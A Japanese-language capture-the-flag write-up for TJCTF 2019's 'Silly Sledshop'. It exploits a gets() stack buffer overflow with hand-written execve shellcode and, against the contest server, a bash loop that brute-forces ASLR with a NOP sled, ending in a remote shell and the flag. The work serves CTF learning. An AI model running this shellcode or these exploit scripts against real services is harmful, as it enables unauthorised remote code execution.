


# TJCTF 2019 `Silly Sledshop [bin 80]` writeup

## 問題



binというよりpwn系の問題。
バイナリがソースコード付きで配布されていて、サーバでそのバイナリのサービスが公開されている。

## 解法

### 簡単な調査

まずはバイナリをチェック。
CanaryもないしPIEも無いしゆるゆるじゃん！と最初は思った。

```bash-statement
$ sarucheck ./sledshop
o: Partial RELRO
o: No Canary found
o: NX disabled
o: No PIE
x: No RPATH
x: No RUNPATH
$
```

32bit。これも余裕そう。

```bash-statement
$ file sledshop
sledshop: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=28fae6ecbea7effce8bcd28dd0e53dbd40ecd702, not stripped
$
```

ソースコードを見るとgets使ってるし、ここ叩くんだろうと容易に分かる。
バッファオーバフロー起こしてシェルコード送れば余裕だとここでも思った。
```C
void shop_order() {
    int canary = 0;
    char product_name[64];

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else      
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}
```

早速繋いでみる。
簡単にstackdump起こせる。

```bash-statement
$ nc p1.tjctf.org 8010
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Sorry, we are closed.
timeout: the monitored command dumped core
$
```


ここまで来て戦略を
1. returnアドレス書き変えで無限ループを実現。
2. shellcode送る
3. shellcode実行

と立てた。

### IPの取得


まずはgdbで追いながらスタック上の戻り番地を特定。
1. gdbでrunして
2. 文字列コピペして
3. segmentation fault起こさせて
4. $eipに入ってる値からproduct_nameの81～84番目で行けそうなことが判明。

```bash-statement
$ gdb ./sledshop
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
77 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./sledshop...(no debugging symbols found)...done.
gef➤  run
Starting program: /home/saru/wani-writeup/2019/04-tjctf/bin-silly-sledshop/sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
AAAAABBABBCCACCDDADDEEAEEFAFFFGGAGGHHAHHIIAIIJJAJJKKAKKLLALLMMAMMNNANNOOAOOPPAPPQQAQQRRARRSSASSTTTATT
Sorry, we are closed.

Program received signal SIGSEGV, Segmentation fault.
```



`objdump -d -M intel ./sledshop shop_list`を実行して`shop_list()`を呼んでいるアドレス「`0x804862d`」にリターンすることを決定。
というのもshop_list呼ぶところに戻ればリストが二回表示されて分かりやすいから。


```bash-statement
08048617 <main>:
 8048617:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804861b:       83 e4 f0                and    esp,0xfffffff0
 804861e:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048621:       55                      push   ebp
 8048622:       89 e5                   mov    ebp,esp
 8048624:       51                      push   ecx
 8048625:       83 ec 04                sub    esp,0x4
 8048628:       e8 fe fe ff ff          call   804852b <shop_setup>
 804862d:       e8 31 ff ff ff          call   8048563 <shop_list>
 8048632:       e8 85 ff ff ff          call   80485bc <shop_order>
 8048637:       b8 00 00 00 00          mov    eax,0x0
 804863c:       83 c4 04                add    esp,0x4
```


1. オーバフロー用の文字列を吐き出す`make_string001.py`を作成
2. `make_string001.py`の実行結果をexploit001.txtに出力
3. `cat exploit001.txt | ./sledshop` を実行

で見事リストが二回表示されることを確認できた。
これでIP (Instruction Pointer)はゲット。

```python:make_string001.py
import sys

sys.stdout.buffer.write(b"A" * 80 + b"\x2d\x86\x04\x08EFGHIJ\n")
```

```bash-statement
$ python make_string001.py > exploit001.txt
```

```bash-statement
$ cat exploit001.txt | ./sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we are closed.
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we don't currently have the product AAAAAAAAAAAA▒▒▒▒▒(▒▒AAAAAAAAk▒▒ in stock. Try again later!
Segmentation fault (core dumped)
$
```

### シェルコードの送り込み&実行

今度はシェルコードを送り込む。
まずは動作結果が分かりやすいlsが実行できるシェルコードを作成。
lsの良いところはshに変えればシェルにも変わるところ。
シェルコードを置ける位置を`0xffffd430`と確認して、攻撃用文字列を吐く`make_string002.py`を作成、gdb上で動作確認。
行った。
正直ここでもうこの問題は終わったと思っていました．．．

```python
b"\x68\x2f\x6c\x73\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"
```

```python: make_string002.py
import sys

shellcode_ls = b"\x68\x2f\x6c\x73\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sys.stdout.buffer.write(b"A" * 20 + shellcode_ls + b"B" * 35 + b"\x30\xd4\xff\xff\n")


```

```bash-statement
$ python make_string002.py > exploit002.txt
```

```bash-statement
gef➤ run < wu_exploit002.txt
Starting program: /home/saru/wani-writeup/2019/04-tjctf/bin-silly-sledshop/sledshop < wu_exploit002.txt
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
Sorry, we are closed.
process 29638 is executing new program: /bin/ls
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
a.out
attack.sh
exploit001.txt
[Inferior 1 (process 29638) exited normally]
gef➤  
```

### ASLRとの戦い

まずは動いたコードを使ってexploit「`solve001.py`」を書いてみたけどまぁこれは予想通りシェルは取れない。
gdb上での実行と実際の実行では環境変数などへの影響でスタックに積まれているデータが変わってアドレスも変わってしまうことを知っていたのでこれはまぁそうかなと納得。

```python:solve001.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)
    return line


host = "p1.tjctf.org"
port = 8010

target_addr = int(0xffffd430)
print("%x" % (target_addr))
target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

ret = read_until(sock, b"Which product would you like?\n")
print(ret)

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 20 + shellcode_sh + b"B" * 35 + b"\x30\xd4\xff\xff\n")

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```

```bash-statement
$ python solve001.py
ffffd430
p1.tjctf.org
8010
b'The following products are available:\n|  Saucer  | $1 |\n| Kicksled | $2 |\n| Airboard | $3 |\n| Toboggan | $4 |\nWhich product would you like?\n'
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
$
```


公開されているソースコードでアドレスの位置を出力するコードを追加してコンパイル。
ローカルで実行すると`product_name`の先頭は`0xffffd48c`であることが分かる。

```
void shop_order() {
    int canary = 0;
    char product_name[64];
    printf("%p\n", product_name);

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}
```

```
$ gcc -m32 -z execstack -no-pie -fno-stack-protector sledshop.c -o test_sledshop
 ```

```
$ ./test_sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
0xffffd48c
Which product would you like?
^C
$
```

socatでサーバ化して繋ぐと同じ`0xffffd3fc`となる。
シェルコードの位置はここから+20なのでシェルコードの位置は`0xffffd410`となる。

```bash-statement
socat tcp-listen:10000,reuseaddr,fork system:'./test_sledshop'
```

```bash-statement
$ nc localhost 10000
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
0xffffd3fc
Which product would you like?
^C
$
```

とりあえずローカルでシェルを取れるようにsolve002.pyを書いてみた。
ローカルだと起動成功！

```python:solve002.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)
    return line


host = "localhost"
port = 10000

target_addr = int(0xffffd410)
print("%x" % (target_addr))
target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

ret = read_until(sock, b"Which product would you like?\n")
print(ret)

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 20 + shellcode_sh + b"B" * 35 + target_addr)

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```


```bash-statement
$ python solve002.py
ffffd410
localhost
10000
b'The following products are available:\n|  Saucer  | $1 |\n| Kicksled | $2 |\n| Airboard | $3 |\n| Toboggan | $4 |\n0xffffd3fc\nWhich product would you like?\n'
ls
Sorry, we are closed.
ls
attack.sh
attack_local.sh
exploit001.txt
id
uid=1002(saru) gid=1002(saru) groups=1002(saru),27(sudo),33(www-data)
exit
*** Connection closed by remote host ***

```

そしてこれをそのままリモートに。
動かない．．．
考えられる理由は1つしかない。
ASLRが有効．．．
高校生の大会じゃないのかよ．．．
難しすぎだろ．．．

NOP sledを使ったbruteforceをやるしかない。
記事では知っていたけど、まだ実装はしたことない。

まずはASLRを有効にしてスタックのアドレスの範囲の当たりを付ける。
先ほど作った`./test_sledshop`を何度か実行してアドレスを吐かせる。
どうやら`0xff800000`～`0xffffffff`の中のようだ。


```
$ sudo sysctl -w kernel.randomize_va_space=2
kernel.randomize_va_space = 2
$
```

ん．．．ということは8388607の範囲。
広すぎるだろ．．．
1000 sledさせても8000回...

いや、きっと10000 sledぐらい行けるに違いない。

と思ったのだけどgetsがsegmentation fault起こすので最大でも1000ぐらいしか行けない。

時間かけるかと考え直して1000スレッドさせるsolve003.pyと1000ずつincrementするattack.shを書いた。

```python:solve003.py
import socket
import telnetlib
import sys
import struct

def read_until(sock, s):
    line = b""
    while line.find(s) < 0:
        line += sock.recv(1)


host = "p1.tjctf.org"
port = 8010

target_addr = int(sys.argv[1])
print("%x" % (target_addr))

target_addr = struct.pack("<L", target_addr)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
print(host)
print(port)
sock.connect((host, port))

read_until(sock, b"Which product would you like?\n")

shellcode_sh = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

sock.sendall(b"A" * 80 + target_addr + b"\x90" * 1000 + shellcode_sh + b"C" * 10 + b"\n")

t = telnetlib.Telnet()
t.sock = sock
t.interact()
```

```bash:attack.sh
count=4286578688
while true
do
  echo python wu_solve003.py $count
  python solve_many.py $count
  count=`expr $count + 1000`
  if [ $count -gt  4294967295 ]; then
          exit 0
  fi
done
```

```bash-statement
$ bash attack.sh
python solve003.py 4286578688
ff800000
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286579688
ff8003e8
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286580688
ff8007d0
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
python wu_solve003.py 4286581688
ff800bb8
p1.tjctf.org
8010
Sorry, we are closed.
timeout: the monitored command dumped core
*** Connection closed by remote host ***
```

長い．．．
3時間ぐらいかかってようやくflagゲット。
バグがあるんじゃないかとドキドキしながらまっていたので心臓に悪い問題だった。

```bash-statement
python solve003.py 4291613264
ffccd250
p1.tjctf.org
8010
Sorry, we are closed.
ls
flag.txt
sledshop
wrapper
cat flag.txt
tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}
```


## 参考
- [[ブルートフォースによる32bit ASLR回避 - ももいろテクノロジー:http://inaz2.hatenablog.com/entry/2014/03/15/073837]]

	
